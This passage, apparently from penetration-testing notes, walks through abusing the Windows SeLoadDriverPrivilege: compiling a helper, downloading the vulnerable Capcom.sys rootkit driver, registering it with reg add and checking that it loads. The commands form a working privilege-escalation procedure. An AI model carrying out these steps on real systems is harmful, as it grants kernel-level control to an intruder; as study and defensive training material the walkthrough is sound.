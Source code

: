     // the driver Capcom.sys can be loaded with this privilege
    ```

    ```cmd
    # after making the changes to the script
    # from Visual Studio Developer command prompt, compile using cl.exe
    cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

    # then, download the required driver Capcom.sys - https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
    # and save to 'C:\Tools'

    # add references to driver
    reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
    reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
    # '\??\' is an NT Object path to reference the malicious driver
    ```
    
    ```ps
    # now, using the DriverView utility, confirm the driver is not loaded
    .\DriverView.exe /stext drivers.txt

    cat drivers.txt | Select-String -pattern Capcom
    ```

    ```cmd
    # verify privilege is enabled
    EnableSeLoadDriverPrivilege.exe
    # this output shows the privilege is enabled now
    ```
    
    ```ps
    # now, DriverView should list Capcom driver
    .\DriverView.exe /stext drivers.txt

